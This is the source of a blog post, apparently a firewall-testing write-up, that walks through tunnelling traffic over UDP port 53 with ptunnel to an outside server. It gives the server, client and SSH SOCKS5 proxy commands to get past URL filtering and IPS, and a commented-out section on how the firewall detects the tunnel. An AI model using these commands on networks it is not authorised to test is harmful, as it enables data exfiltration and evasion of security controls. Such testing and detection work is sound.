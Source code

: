 ```yaml
---
layout: post
title:  "Application Firewall Data Exfiltration over UDP (ptunnel)"
date:   2021-19-01 12:21:16 -0400
categories: exfiltration 
tags: gateway bypass
---
```

<p>
Once an environment has been compromised and the adversary finds some desirable data the data needs to be removed from the network. In this use case we will assume that UDP is being permitted egress by the firewall.
</p>

<p>
ptunnel creates a tunnel interface on a system and then allows you to create a UDP tunnel between a clien
t and the server.
</p>
<p>
The server will need to be on the outside of your DUT (Device Under Testing). The idea is that the client
 will establish a tunnel to the server and be able to bypass the rest of the controls (URL Filtering, IPS, etc) in the network that the client is behind.
</p>


<h3>Step 1 - Deploy the ptunnel Server</h3>


<p>
In this case the ptunnel server is running on a host in GCP. Make sure the firewall is permitting port 53, or whichever port you decide to use to get around the DUT.
</p>

<p>
ptunnel may already be installed, but if not;
</p>

<code>
  apt-get install ptunnel
</code>
<br>


<p>
Once installed we can start the server. In this case we are enabling the UDP flag because ptunnel's default behaviour is to use ICMP (which is super slow). The -v enables visibility into what's going on. And -x boom is a password being set which is also optional.
<p>

<pre>
root@sperciballi-iodine:/home/stephen# ptunnel -udp -v 4 -x boom
[dbg]: Password set - unauthenicated connections will be refused.
[inf]: Starting ptunnel v 0.72.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: UDP transport enabled.
[dbg]: Starting ping proxy..
[dbg]: Creating UDP socket..
[inf]: Ping proxy is listening in privileged mode.
</pre>

<h3>Step 2 - Deploy the ptunnel Client</h3>

<p>
From a host behind the DUT run the ptunnel client. There are Windows binaries if you prefer but Linux is what we are using.
</p>

<p>
ptunnel may already be installed, but if not;
</p>

<code>
  apt-get install ptunnel
</code>
<br>

<p>
Once installed we can start the client. In this case we are again enabling the UDP flag. The -p IP address is the servers public IP address. The -lp 8080 is specifying a local port to proxy traffic through, and the -da localhost is specifying localhost as the proxy (in some circumstances you may want to use a different local IP). The -dp 22 is the destination port on the remote end we will be sending traffic through. And the -x boom is again the corresponding password.
</p>

<pre>
┌──(root💀kali)-[/home/stephen]
└─# ptunnel -udp -p 35.196.116.250 -lp 8080 -da localhost -dp 22 -x boom
[inf]: Starting ptunnel v 0.72.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.
[inf]: UDP transport enabled.
[inf]: Incoming connection.
[evt]: No running proxy thread - starting it.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping tunnel to 127.0.0.1:22 due to inactivity.
[inf]: 
Session statistics:
[inf]: I/O:   0.14/  0.01 mb ICMP I/O/R:      212/      67/      40 Loss:  0.6%
</pre>



<h3>Step 3 - Setup a Proxy</h3>


<p>
From the client system we will now configure an SSH SOCKS5 proxy. This will send all of our traffic over an encrypted SSH tunnel, through the UDP tunnel established by ptunnel. The main reason for this is ease of use. You could also setup a basic HTTP proxy like squid on the ptunnel server side.
</p>

<p>
To start the proxy from the client we ssh, specify the local port of 8080, -C compresses traffic, -D 8081 specifies to use 8081 as the SOCKS5 port, and -da localhost -dp 22 says to ssh into localhost. It is important to note that because we are actually using port 8080 this command is ssh'ing into the ptunnel host so <b>remember to use the login for the ptunnel server and not actually localhost.</b>
</p>

<pre>
┌──(root💀kali)-[/home/stephen]
└─# ssh -i ./google_compute_engine -p 8080 -C -D 8081  stephen@localhost
Enter passphrase for key './google_compute_engine': 
Linux sperciballi-iodine 4.19.0-16-cloud-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
</pre>


<h3>Step 4 - Proxy Your Traffic</h3>

<p>
At this point we have essentially enabled a proxy within a proxy. Now we have to tell our client system software to use the proxy.
</p>

<p>
In your web browser preferences search for proxy. Then configure it to use a SOCKS5 proxy, specify localhost for the host and port 8081 (from step 3) for the port.
</p>

<p>
From here if you search for what's my IP you will find that the IP address is that of the public interface of the ptunnel server.
</p>

<!--
<h3>Step 5 - View the Results</h3>

<p>
Check back in on the NGFW to see how it interpretted this session.
</p>

<p>
From this one we can see that there were two alerts. One of them was a traffic log that shows traffic going over UDP port 53. The application is unknown-udp. While this is not ideal it's better to be designated as unknown-tcp which you should be working to manage out of your ruleset than misidentified as DNS or something else. You can also see that the traffic amounted to 5.3M which was me visiting a couple of websites. Also important to note that you won't see this log until the session is ended by default.
</p>

<p>
The second alert is an IPS alert indicating that there was non-compliant DNS traffic. These two things together are a good indicated that someone is tunneling and is reason to adjust policy.
</p>

<img src="/images/appid-evasion-ptunnelresults.png">
<br>
<br>
-->
